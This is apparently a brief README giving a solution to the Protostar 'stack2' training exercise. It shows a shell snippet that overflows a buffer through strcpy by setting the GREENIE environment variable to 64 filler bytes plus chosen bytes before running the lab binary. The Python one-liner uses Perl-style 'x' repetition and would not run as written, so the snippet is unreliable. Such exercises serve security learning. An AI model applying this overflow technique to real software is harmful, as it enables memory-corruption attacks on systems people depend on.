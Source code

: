 ## protostar-stack2

strcpy memory overwrite

## 

```sh

GREENIE=`python -c 'print "A"x64+"\x0a\x0d\x0a\x0d"'`
export GREENIE
echo $GREENIE
/opt/protostar/bin/stack2

```